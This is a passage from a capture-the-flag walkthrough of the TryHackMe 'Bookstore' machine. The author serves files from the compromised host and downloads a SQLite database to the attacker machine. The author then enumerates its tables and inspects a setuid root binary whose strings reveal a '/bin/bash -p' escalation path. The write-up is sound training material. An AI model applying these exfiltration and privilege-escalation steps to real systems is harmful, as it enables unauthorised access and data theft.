**Nevermind, let's transfer this SQLite database file to our attacker machine!**
```
sid@bookstore:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

┌──(root🌸siunam)-[~/ctf/thm/ctf/Bookstore]
└─# wget http://$RHOSTS:8000/books.db
```

**Enumerate the `books.db` database:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bookstore]
└─# sqlite3 books.db 
SQLite version 3.39.4 2022-09-29 15:55:41
Enter ".help" for usage hints.
sqlite> 
```

```
sqlite> .tables
books
```

- Found table: `books`

```
sqlite> PRAGMA table_info(books);
0|id||0||1
1|published|INT|0||0
2|author|VARCHAR|0||0
3|title|VARCHAR|0||0
4|first_sentence|VARCHAR|0||0
```

- Found columns: `id`, `published`, `author`, `title`, `first_sentence`.

Hmm... Nothing interesting, I thought it has some credentails in there.

**How about the `try-harder` file?**
```
sid@bookstore:~$ file try-harder 
try-harder: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4a284afaae26d9772bb38113f55cd53608b4a29e, not stripped

sid@bookstore:~$ ls -lah try-harder 
-rwsrwsr-x 1 root sid 8.3K Oct 20  2020 try-harder
```

**It's an 64-bit LSB executable, has SUID sticky bit, and it's owned by `root`! Which we could escalate our privilege to root!**  

**`strings`:**
```
sid@bookstore:~$ strings try-harder
[...]
AWAVI
AUATL
[]A\A]A^A_
What's The Magic Number?!
/bin/bash -p
Incorrect Try Harder
[...]
```
